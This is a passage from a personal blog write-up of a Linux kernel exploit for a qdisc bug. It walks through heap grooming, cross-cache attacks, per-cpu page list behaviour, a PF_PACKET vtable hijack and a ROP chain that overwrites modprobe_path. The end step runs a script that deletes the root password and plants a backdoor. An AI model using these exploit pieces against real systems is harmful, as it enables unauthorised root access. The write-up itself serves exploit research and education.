  const int subtract = (5 * 0x10) - 8;
  dumph(&mrecv1[NEWCOMPSZ - (subtract)], subtract, ' ');
  uint64_t do_tty_hangup = *(uint64_t *)(&mrecv1[NEWCOMPSZ - (subtract)]);
  kbase = do_tty_hangup - 0xadde80;
  printf("[*] Kbase: %p\n", kbase);
  free(mrecv1);

```

We end up embedding the `seg_idx` of the controlled message into the message itself so we know exactly which message it is, which we then release.

Very VERY luckily the `tty_struct` data overlapping `next->next` was null, otherwise this wouldn't have worked at all. That's become a theme with this exploit I feel. So with leaks acquired what comes next? Time travel, of course. The issue now is we wrote a single pointer, overwriting the `next` ptr of an old `msg_msg`, however in order to do more with this primitive we would need to re-do the whole process again, from the qdisc allocation to the cross cache and subsequent spraying to control the backing data this would all be quite annoying.

My idea ended up being to write our pointer value twice, once in `msg_msg`, and another in a very different location.

### PF_PACKET and other miracles

The object I had chosen to spray throughout the exploit was sockets -- not without good reason as they are quite bountiful (much more so than `tty_struct`). Some sockets, like `PF_NETLINK` end up in kmalloc-2k when allocated, however most don't. Many sockets have their own dedicated cache - for example AF_UNIX goes into the `UNIX` cache, `AF_VSOCK`, of course, goes into `AF_VSOCK`. I ended up deciding to target socket objects for achieving code execution as I had previously written an exploit following [hoefler's vsock post](https://hoefler.dev/articles/vsock.html) and it had been a very smooth process. But for this to work I would need to reliably know the location of a socket object, so ideally it would have to land in kmalloc-2k - in range of our qdisc.

Enter stage right, `PF_PACKET`. This specific socket kind ends up in kmalloc-2k. So why and how can this object be leveraged for code execution? All `struct sock`s have a certain member, `skc_prot` (residing in `struct sock_common`). This essentially acts as a family specific vtable of functions for stuff you can do on that socket.

```c
/* offset      |    size */  type = struct proto {
/*      0      |       8 */    void (*close)(struct sock *, long);
/*      8      |       8 */    int (*pre_connect)(struct sock *, struct sockaddr *, int);
/*     16      |       8 */    int (*connect)(struct sock *, struct sockaddr *, int);
/*     24      |       8 */    int (*disconnect)(struct sock *, int);
/*     32      |       8 */    struct sock *(*accept)(struct sock *, int, int *, bool);
/*     40      |       8 */    int (*ioctl)(struct sock *, int, int *);
/*     48      |       8 */    int (*init)(struct sock *);
/*     56      |       8 */    void (*destroy)(struct sock *);
/*     64      |       8 */    void (*shutdown)(struct sock *, int);
/*     72      |       8 */    int (*setsockopt)(struct sock *, int, int, sockptr_t, unsigned int);
/*     80      |       8 */    int (*getsockopt)(struct sock *, int, int, char *, int *);
/*     88      |       8 */    void (*keepalive)(struct sock *, int);
/*     96      |       8 */    int (*compat_ioctl)(struct sock *, unsigned int, unsigned long);
/*    104      |       8 */    int (*sendmsg)(struct sock *, struct msghdr *, size_t);
/*    112      |       8 */    int (*recvmsg)(struct sock *, struct msghdr *, size_t, int, int *);
/*    120      |       8 */    void (*splice_eof)(struct socket *);
/*    128      |       8 */    int (*bind)(struct sock *, struct sockaddr *, int);
/*    136      |       8 */    int (*bind_add)(struct sock *, struct sockaddr *, int);
/*    144      |       8 */    int (*backlog_rcv)(struct sock *, struct sk_buff *);
/*    152      |       8 */    bool (*bpf_bypass_getsockopt)(int, int);
								// [1]
/*    160      |       8 */    void (*release_cb)(struct sock *);
/*    168      |       8 */    int (*hash)(struct sock *);
/*    176      |       8 */    void (*unhash)(struct sock *);
/*    184      |       8 */    void (*rehash)(struct sock *);
/*    192      |       8 */    int (*get_port)(struct sock *, unsigned short);
/*    200      |       8 */    void (*put_port)(struct sock *);
/*    208      |       8 */    int (*psock_update_sk_prot)(struct sock *, struct sk_psock *, bool);
/*    216      |       4 */    unsigned int inuse_idx;
/* XXX  4-byte hole      */
// IRRELEVENT STUFF
/*    448      |       8 */    int (*diag_destroy)(struct sock *, int);

                               /* total size (bytes):  456 */
                             }
```

Sidenote god I love pahole so much.

The `release_cb` member of this structure is used (shocker incoming) when releasing the socket. It takes care of family specific destruction. So if you invoke `close(my_sock_xd);` this may call `release_cb`. The reason I say *may* is because when I tried this with netlink sockets there was absolutely nothing, so its not guaranteed, other destruction stuff may be used -- another reason why packet sockets are cool. So... What you're saying is there's a vtable... And we can write a pointer... And this pointer can be backed by entirely user controlled data (bcuz kmalloc-cg-1k)... Hmmm.....

Why the hell did libc have to go and start validating IO vtables man why cant everything be as easy as this.
										*_codecvt will remember that*

The process for writing into a packet sock is extremely simple, at the point where we write it into our `msg_msg->next`, we also write to `skc_prot` of a packet sock. This way both are the same, and both will end up pointing into kmalloc-cg-1k after all's said and done. You may be able to see where this is going; After leaks are acquired, we release our `tty_struct`s, and in their place spray more `msg_msg`, thus controlling the vtable contents. At this point its as simple as releasing all our packet sockets and crossing our fingers.

Of course, it wouldn't be this simple.
## Exploit flow walkthrough

But before we address that, here's a recap of what an (idealistic) exploit flow looks like.

1. Use the bug to underflow the class and leak a quantum value corresponding to the `cl->alist` value.
2. Perform a cross cache attack, migrating kmalloc-2k to kmalloc-cg-2k
	- Now the leak we just got refers to kmalloc-cg-2k instead of normal 2k.
3. Create another qdisc, at the same time setting up for a second cross cache attach
4. Use the bug to perform a pointer write into one of the sprayed msg_msg.
	- These are the msg's we sprayed in step 2
5. Iterate over the messages and receive a message from all of our msg queues until we find the pointer we just wrote.
	- This just involves checking if the msg content matches what we sent earlier - if it doesnt, we found our controlled message.
	- Note that when receiving we aren't using MSG_COPY so the message objects are being free'd on receive.
6. If we find our ptr, break out of the loop, otherwise send a message down the queue of exactly the same size to reclaim the object.
	- This is done so if we do find our controlled message we release it and can then reclaim it outside the loop.
		- If we were to just free every message without reclaiming it could be difficult to reallocate the exact message we want when we do find it.
7. Use the pointer write primitive again to write `cl->alist` into the `next` msg_msgseg ptr of our controlled msg
	- This will be used for leaking more data later
8. Add a child qdisc to our main qdisc, use the bug to get a leak from this qdisc.
	- This is simply so we have a leak into the CURRENT kmalloc-2k cache.
9. Spray PF_PACKET datagram sockets.
	- One of these will (ideally) end up adjacent to the child qdisc, meaning we now know their location.
10. Delete the child qdisc
	- We dont need it anymore 
		- :(
11. Use the pointer write primitive yet again to write `cl->alist` into the area which *should* overlap with the `skc_prot` member of one of the sprayed sockets.
	- This is simply a vtable with some other data members of type `struct proto`.
		- You may be able to see where this is going...
12. Delete our main qdisc, and perform steps to initiate cross cache
	- At this point after this cross cache we have a message whos `next` seg ptr points into kmalloc-cg-2k and the same for `skc_proto`, which points to the same location.
13. SPRAY BILLIONS (9999) OF MSGs.
	- One of them should reclaim the allocation where our main qdisc was
	- This means the old `msg->next` now points into another msg
	- Each message has its queue idx embedded in its contents so we can find which sprayed msg specifically is overlapping.
14. Receive (and MSG_COPY) a message from our original queue, this should print out the contents of one of the sprayed message.
	- This contents also contains its index in the queue.
15. Receive and release all the messages in the overlapping msg queue.
16. Spray `tty_struct` objects 
	- You defo see the money now huh
	- These will replace the messages we just released.
17. At this point, the old `msg->next` (should) point into a `tty_struct` object, so we receive (MSG_COPY) from this queue. The latter portion of the message contains kernel text and data leaks from said object.
	- Very very very fortunately for us there was NOT a pointer at the start of the "segment", so this leak works fine.
18. Delete all the `tty_struct`s and spray MORE messages in their place.
	- These messages all contain the same thing: the fake `skc_prot` with a stack pivot gadget overlapping `release_cb` and a ropchain.
19. Finally, release all the `PF_PACKET` sockets. One of these *should* have had its `skc_prot` corrupted, and will set off the ropchain.

All in all I think we can agree - far too many cross cache attacks, and not enough message sprays. Life's too short not to fill the heap with `msg_msg`s and cause an OOM panic.
	- This Definitely DIDNT happen a good few times.

## Vaulted by a ram increase

This was the original plan for the exploit, but owing to some page shenanigans this had to be amended slightly. When increasing qemu's RAM from 256M to 2G, I ran into an issue where my second cross cache, wherein I attempted to migrate a kmalloc-2k cache to kmalloc-cg-1k (for steps 16 & 17) simply didn't work, no matter how many objects I sprayed. This was a whole saga, at one point I *thought* it was fixed but then realized I had changed the memory back to 256M and forgotten to revert back to 2G, very very silly.

I asked around in the kernelCTF discord server, which seems to be a tried and tested technique (new heap tech unlocked I call it house-of-help). It turned out something quite interesting had happened to my page:


### Per cpu list???
It made sense, our page was stuck somewhere we couldnt get at, but I was a little confused at this as I had heard the concept of a per cpu lists before -- the cpu partial list must be overcome to successfully cross cache, but I had no idea of the working and function of the per cpu __page__ freelist. You can skip this section if uninterested as there will be a fair amount of waffling. 

First, per cpu? Its obvious of course from the name - but I wanted to ensure my understanding was correct. Per CPU variables have a copy existing for every processor. This can be used as a macro in a variable declaration. For example see the declaration of pcp list itself on the `zone` struct in `mmzone.h`:

```c
struct per_cpu_pages	__percpu *per_cpu_pageset;
```

Second, how? How and why did our page end up in the PCP list instead of coming back to us? When freeing a page, if we have a PCP for this CPU (idk a situation this wouldnt be the case) the `free_unref_page_commit` function will be called [1] :

```c
/*
 * Free a pcp page
 */
void free_unref_page(struct page *page, unsigned int order)
{
	unsigned long __maybe_unused UP_flags;
	struct per_cpu_pages *pcp;
	struct zone *zone;
	unsigned long pfn = page_to_pfn(page);
	int migratetype, pcpmigratetype;

	if (!free_unref_page_prepare(page, pfn, order))
		return;

	/*
	 * We only track unmovable, reclaimable and movable on pcp lists.
	 * Place ISOLATE pages on the isolated list because they are being
	 * offlined but treat HIGHATOMIC and CMA as movable pages so we can
	 * get those areas back if necessary. Otherwise, we may have to free
	 * excessively into the page allocator
	 */
	migratetype = pcpmigratetype = get_pcppage_migratetype(page);
	if (unlikely(migratetype >= MIGRATE_PCPTYPES)) {
		// ...
	}

	zone = page_zone(page);
	pcp_trylock_prepare(UP_flags);
	pcp = pcp_spin_trylock(zone->per_cpu_pageset);
	// [1]
	if (pcp) {
		free_unref_page_commit(zone, pcp, page, pcpmigratetype, order);
		pcp_spin_unlock(pcp);
	} else {
		free_one_page(zone, page, pfn, order, migratetype, FPI_NONE);
	}
	pcp_trylock_finish(UP_flags);
}

```

This ends up linking our page into the PCP list - which is fine. Later on, when trying to allocate a page, we end up calling `__alloc_pages`, which calls `get_page_from_freelist` in its "fastpath". This then calls `rmqueue`, which, you guessed it, removes a page from one of the freelists. This then ends up calling into `rmqueue_pcplist` - when the order is right [2].

```c
__no_sanitize_memory
static inline
struct page *rmqueue(struct zone *preferred_zone,
			struct zone *zone, unsigned int order,
			gfp_t gfp_flags, unsigned int alloc_flags,
			int migratetype)
{
	struct page *page;

	/*
	 * We most definitely don't want callers attempting to
	 * allocate greater than order-1 page units with __GFP_NOFAIL.
	 */
	WARN_ON_ONCE((gfp_flags & __GFP_NOFAIL) && (order > 1));

	if (likely(pcp_allowed_order(order))) {
		// [2]
		page = rmqueue_pcplist(preferred_zone, zone, order,
				       migratetype, alloc_flags);
		if (likely(page))
			goto out;
	}
	// ...
	return page;
```

This is where the problem begins, however. As Dino said, you CANNOT cross cache from the pcp list for different order pages [3].

```c
/* Lock and remove page from the per-cpu list */
static struct page *rmqueue_pcplist(struct zone *preferred_zone,
			struct zone *zone, unsigned int order,
			int migratetype, unsigned int alloc_flags)
{
	struct per_cpu_pages *pcp;
	struct list_head *list;
	struct page *page;
	unsigned long __maybe_unused UP_flags;
	// ...
	/*
	 * On allocation, reduce the number of pages that are batch freed.
	 * See nr_pcp_free() where free_factor is increased for subsequent
	 * frees.
	 */
	pcp->free_factor >>= 1;
	// [3]
	list = &pcp->lists[order_to_pindex(migratetype, order)];
	page = __rmqueue_pcplist(zone, order, migratetype, alloc_flags, pcp, list);
	pcp_spin_unlock(pcp);
	pcp_trylock_finish(UP_flags);
	if (page) {
		__count_zid_vm_events(PGALLOC, page_zonenum(page), 1 << order);
		zone_statistics(preferred_zone, zone, 1);
	}
	return page;
}
```

We can now see why this is; it will only ever give us `page`s with the same order and migrate type :(. 

Now resuming from where we left off. It (our page) was indeed stuck (thanks dinosaurlover38 u da best). As part of the cross cache, steps 1 and 3 (see previous screenshot) were already being performed, so all that needed to happen was me releasing as many slabs as possible to trigger the code which would flush the per-cpu freelist:

```c
static void free_unref_page_commit(struct zone *zone, struct per_cpu_pages *pcp,
				   struct page *page, int migratetype,
				   unsigned int order)
{
	int high;
	int pindex;
	bool free_high;

	__count_vm_events(PGFREE, 1 << order);
	pindex = order_to_pindex(migratetype, order);
	list_add(&page->pcp_list, &pcp->lists[pindex]);
	pcp->count += 1 << order;

	/*
	 * As high-order pages other than THP's stored on PCP can contribute
	 * to fragmentation, limit the number stored when PCP is heavily
	 * freeing without allocation. The remainder after bulk freeing
	 * stops will be drained from vmstat refresh context.
	 */
	free_high = (pcp->free_factor && order && order <= PAGE_ALLOC_COSTLY_ORDER);

	high = nr_pcp_high(pcp, zone, free_high);
	// [1]
	if (pcp->count >= high) {
		// [2]
		free_pcppages_bulk(zone, nr_pcp_free(pcp, high, free_high), pcp, pindex);
	}
}
```

When the `pcp->count` reaches `high` we set the release in motion, starting with `pcp->lists[pindex-1]`:

```c
struct per_cpu_pages {
	spinlock_t lock;	/* Protects lists field */
	int count;		/* number of pages in the list */
	int high;		/* high watermark, emptying needed */
	int batch;		/* chunk size for buddy add/remove */
	short free_factor;	/* batch scaling factor during free */
#ifdef CONFIG_NUMA
	short expire;		/* When 0, remote pagesets are drained */
#endif

	/* Lists of pages, one per migrate type stored on the pcp-lists */
	struct list_head lists[NR_PCP_LISTS];
} ____cacheline_aligned_in_smp;

```

`lists` store references to `struct page`s, the comment implies 1 per migrate type but there's a lil more to it:

```c
#define NR_LOWORDER_PCP_LISTS (MIGRATE_PCPTYPES * (PAGE_ALLOC_COSTLY_ORDER + 1))
#define NR_PCP_LISTS (NR_LOWORDER_PCP_LISTS + NR_PCP_THP)
```

We have a a list for each migrate type for every possible page block order. Meaning we can store all migrate type pages for all possible orders. Cool.

`high`, the "high watermark" seems to refer to the total page capacity of the pcp list. 

Although `pindex` is derived from the order and determines the first list to be drained in `free_pcppages_bulk`, every list *should* (in circumstances where `free_high` is true) end up drained in the end due to us passing `nr_pcp_free(pcp, high, free_high)` as `count` at [2].

```c
static void free_pcppages_bulk(struct zone *zone, int count,
					struct per_cpu_pages *pcp,
					int pindex)
{
	unsigned long flags;
	unsigned int order;
	bool isolated_pageblocks;
	struct page *page;

	/*
	 * Ensure proper count is passed which otherwise would stuck in the
	 * below while (list_empty(list)) loop.
	 */
	count = min(pcp->count, count);

	/* Ensure requested pindex is drained first. */
	pindex = pindex - 1;

	spin_lock_irqsave(&zone->lock, flags);
	isolated_pageblocks = has_isolate_pageblock(zone);

	while (count > 0) {
		struct list_head *list;
		int nr_pages;

		/* Remove pages from lists in a round-robin fashion. */
		do {
			if (++pindex > NR_PCP_LISTS - 1)
				pindex = 0;
			list = &pcp->lists[pindex];
		} while (list_empty(list));

		order = pindex_to_order(pindex);
		nr_pages = 1 << order;
		do {
			int mt;

			page = list_last_entry(list, struct page, pcp_list);
			mt = get_pcppage_migratetype(page);

			/* must delete to avoid corrupting pcp list */
			list_del(&page->pcp_list);
			count -= nr_pages;
			pcp->count -= nr_pages;

			/* MIGRATE_ISOLATE page should not go to pcplists */
			VM_BUG_ON_PAGE(is_migrate_isolate(mt), page);
			/* Pageblock could have been isolated meanwhile */
			if (unlikely(isolated_pageblocks))
				mt = get_pageblock_migratetype(page);

			__free_one_page(page, page_to_pfn(page), zone, order, mt, FPI_NONE);
			trace_mm_page_pcpu_drain(page, order, mt);
		} while (count > 0 && !list_empty(list));
	}

	spin_unlock_irqrestore(&zone->lock, flags);
}
```

My approach was to break on [1] in a debugger and inspect the value of `high` to see how many (order 3) page blocks would have to be released. Before anything happens in my exploit, I allocate many `msg_msg`s in kmalloc-cg-2k, enough that when all released they will flush the pcp list:

```c
// Filling
void make_slabs(int *msgq, int *pre_post, uint32_t num_alloc, uint32_t pre,
                uint32_t post) {
  // Make a bunch of 2k slabs for us to release later, hopefully will enable us
  // to release our qdisc slab from the percpu freelist Because the target is
  // also order-3, we must also release order 3. We should ideally call this
  // func BEFORE anything else in the program.
  char mtext[MAX_K2K_SZ];
  memset(mtext, 0x88, MAX_K2K_SZ);
  msg_spray_nodiag(MAX_K2K_SZ, mtext, PRE, pre_post);
  msg_spray_nodiag(MAX_K2K_SZ, mtext, num_alloc, msgq);
  msg_spray_nodiag(MAX_K2K_SZ, mtext, POST, &pre_post[PRE]);
}

// ...
// Releasing
void release_slabs(int *msgq, int *pre_post, uint32_t num_alloc,
                   uint32_t pre, uint32_t post) {
  // Does the inverse of the above.
  // Free one obj per slab to overflow partial list
  char *mrecv = NULL;
  for (int i = 0; i < num_alloc; i += OBJ_PER_SLAB) {
    mrecv = recv_msg(msgq[i], MAX_K2K_SZ, 0, 0);
    free(mrecv);
  }

  for (int i = 0; i < pre + post; i++) {
    mrecv = recv_msg(pre_post[i], MAX_K2K_SZ, 0, 0);
    free(mrecv);
  }

  for (int i = 0; i < num_alloc; i++) {
    if (!(i % OBJ_PER_SLAB))
      continue;
    mrecv = recv_msg(msgq[i], MAX_K2K_SZ, 0, 0);
    free(mrecv);
  }
}
```

This release of course must happen AFTER our cross cache page has been kidnapped by the pcp list and before any attempts to reclaim the page. I had to spray a little more `msg_msg` than usual to get the page back, but it worked a charm.

## ROP check?

Theres a small problem here - since we are hijacking a vtable, we obviously dont have an immediate vehicle for executing more or other gadgets beyond that point. We will need to stack pivot. Luckily, the kernel is... Fairly massive so we have no shortage of gadgets. But do we have any that will work for our specific needs? If you step through the code responsible for invoking `release_cb` (see `release_sock` function) in gdb before the call, you'll notice that at the time of calling, `rax` points at `skc_prot`, which is to say it points at the `close` member, and is entirelly controlled. My first thought was how do we pivot the kernel stack to this destination? Very easily, in fact. `ropper` blessed me with this beauty:

```asm
   0xffffffff810f95cc <x86_gsbase_write_cpu_inactive+76>:       mov    rsp,rax
   0xffffffff810f95cf <x86_gsbase_write_cpu_inactive+79>:       pop    rbx
   0xffffffff810f95d0 <x86_gsbase_write_cpu_inactive+80>:       ret
```

At this point more rop is extremely easy, so what do we actually want to do. Im a simple man with simple tastes -- `modprobe_path` to be exact. Although the traditional way to invoke modprobe using dummy files was callously murdered, [there are other ways](https://theori.io/blog/reviving-the-modprobe-path-technique-overcoming-search-binary-handler-patch), Thanks Theorio. With this in mind all we need to do is construct a write primitive capable of overwriting it. Heres what my chain looks like in the exploit:

```c
    uint32_t write = (0x188 - 0x30) / 8;
    uint64_t *mptr = (uint64_t *)(&msg->mtext[0]);
    mptr[write++] = pop_rsi_ret;
    mptr[write++] = modprobe;
    mptr[write++] = pop_rdx_ret;
    // /tmp/ex\x00
    mptr[write++] = 0x0078652f706d742f;
    mptr[write++] = mov_qword_ptr_rsi_rdx_pop_rbx_ret;
    // Skip raw_prot
    write++;
    mptr[write++] = swapgs_return_to_usermode;
    // Now the arg arrangements for iretq
    mptr[write++] = 0x7777777777777777;
    mptr[write++] = 0x7777777777777777;
    mptr[write++] = user_pc;
    mptr[write++] = user_cs;
    mptr[write++] = user_rflags;
    mptr[write++] = user_sp;
    mptr[write++] = user_ss;
    // Random padding
    mptr[write++] = 0x7777777777777777;

```

I initially have to correct the writing index, as our control starts at offset 0x180 into our payload (thx qdisc you're awesome), then accounting for the `msg_msg` header (0x30). We skip an additional 8 bytes because of the unfortunate `pop rbx` in our pivot gadget. The `swapgs_return_to_usermode` gadget refers to this area of `common_interrupt_return`:

```asm
   0xffffffff82401126 <common_interrupt_return+54>:     mov    rdi,rsp
   0xffffffff82401129 <common_interrupt_return+57>:     mov    rsp,QWORD PTR gs:0x6004
   0xffffffff82401132 <common_interrupt_return+66>:     push   QWORD PTR [rdi+0x30]
   0xffffffff82401135 <common_interrupt_return+69>:     push   QWORD PTR [rdi+0x28]
   0xffffffff82401138 <common_interrupt_return+72>:     push   QWORD PTR [rdi+0x20]
   0xffffffff8240113b <common_interrupt_return+75>:     push   QWORD PTR [rdi+0x18]
   0xffffffff8240113e <common_interrupt_return+78>:     push   QWORD PTR [rdi+0x10]
   0xffffffff82401141 <common_interrupt_return+81>:     push   QWORD PTR [rdi]
   0xffffffff82401143 <common_interrupt_return+83>:     push   rax
   0xffffffff82401144 <common_interrupt_return+84>:     xchg   ax,ax
   0xffffffff82401146 <common_interrupt_return+86>:     mov    rdi,cr3
   0xffffffff82401149 <common_interrupt_return+89>:     jmp    0xffffffff8240117f <common_interrupt_return+143>
   ...
   0xffffffff8240117f <common_interrupt_return+143>:    or     rdi,0x1000
   0xffffffff82401186 <common_interrupt_return+150>:    mov    cr3,rdi
   0xffffffff82401189 <common_interrupt_return+153>:    pop    rax
   0xffffffff8240118a <common_interrupt_return+154>:    pop    rdi
   0xffffffff8240118b <common_interrupt_return+155>:    swapgs 
   0xffffffff8240118e <common_interrupt_return+158>:    nop    DWORD PTR [rax+0x0]
   0xffffffff82401195 <common_interrupt_return+165>:    jmp    0xffffffff824011b7 <common_interrupt_return+199>
   ...
   0xffffffff824011b7 <common_interrupt_return+199>:    test   BYTE PTR [rsp+0x20],0x4
   0xffffffff824011bc <common_interrupt_return+204>:    jne    0xffffffff824011c0 <common_interrupt_return+208>
   0xffffffff824011be <common_interrupt_return+206>:    iretq  
```

But besides that its pretty bog standard. After successfully returning to usermode, we get dropped back to our `user_pc`/`retfunc` in our exploit. 

```c
void retfunc() {
  puts("Back in usermode yayyy");

  // https://theori.io/blog/reviving-the-modprobe-path-technique-overcoming-search-binary-handler-patch
  struct sockaddr_alg sa;
  int alg_fd = socket(AF_ALG, SOCK_SEQPACKET, 0);
  if (alg_fd < 0) {
    perror("socket(AF_ALG) failed");
    exit(-1);
  }

  memset(&sa, 0, sizeof(sa));
  sa.salg_family = AF_ALG;
  // Thx theorio
  strcpy((char *)sa.salg_type, "V4bel"); // dummy string
  bind(alg_fd, (struct sockaddr *)&sa, sizeof(sa));

  // Should've deleted the root password atp so we gud
  system("/backdoor.sh");
  exit(0);
}
```

If you read the post by Theorio I linked earlier talking about alternative ways to invoke `modprobe_path`, you'll immediately see whats going on here. By looking up a non-existent algorithm we trigger modprobe. Our script does a couple things.
- Deletes root password
- Creates a backdoor shell script

A bit excessive as I suppose you'd want to be quiet if doing this kind of thing with a red team or *otherwise*, but this entire exploit is ONE OF THE NOISIEST THINGS TO EVER EXIST so I dont think that'll be the primary concern.

Take a look.


Ignore the shell error it was a misunderstanding.

There is 4 main points of failure in the exploit, the first 2 being the cross cache attacks, which will fail occasionally. The 3rd happens when we run commands to reset the interface state - probably because of open "files" and sockets and us corrupting a socket. The 4th is when trying to reclaim `tty_struct`s - we get our leak, but no further than that. The first 2 are luck of the draw - cross cache is known to be a bit unreliable. The 3rd can be mitigated entirely (I believe) if we stopped running commands to reset the interface. But the 4th could potentially be addressed through some heap shaping. The exploit is probably ~50% reliable, maybe slightly higher so there's still more work to be done here - the code isn't the best and there's defo a lot of room for improvement, some functions that don't need to be functions, etc.

I ended up using [like-dbg](https://github.com/0xricksanchez/like-dbg), as you can see. A very easy useful way to build and manage kernels. I did end up doing away with the tmux stuff tho, not a massive fan. 
 
## Thoughts and Conclusions

Thanks for reading. Even if you did skip around its nice having your weirdcore eye angels flapping around in my tiny corner of the net. I hope you learned something, I know I did, so lets get to some of that.


This is u btw.

Developing exploits for a kernel, especially as racy and unreliable as they are can be an absolute chore, icl trying to get a working run of the exploit which I could then debug was truly truly testing on a primal level (especially after 6 or 6 runs was required to get 1 which was functional). So, its best to remove as many obstacles as possible in this process. One thing I did during this was have 2 different filesystems, one which starts very quickly (only a few seconds) and is extremely light for rapid testing of the exploit, and one which is heavier that represents a more realistic environment with a whole bunch of processes running. Also consider using snapshots or editing kernel source to make testing less tiresome. You're going to be running qemu A LOT so less friction is a massive w in the long run.

I don't think I'll be testing exploits on low memory environments again (128M, 256M) unless explicitly required to. I wanna mitigate issues like my problem with pcp lists as much as possible. So I'll be sticking to 1G and higher in the foreseeable future. Also OH MY GOD do certain objects take much longer to free than others. Qdiscs especially, no idea whats going on there but a delay of 11s between releasing and whatever I was doing next was necessary most of the time. One last thought on the bug: The impact of this is pretty much erased with list hardening enabled (I think). So turn it on unless you got a rlly rlly good reason not to (maybe for speed or something).

I think I'll be trying to POC a few more of these in future. Wanna try my hand at a race condition next cuz its probably gonna actually give me a brain aneurism - I have absolutely no idea what im doing with that bug class most of the time.

That's basically it, I think. I'll see you all again soon. Sooner than last time probably, now that I have more stuff worth writing down. Much love and good luck :).

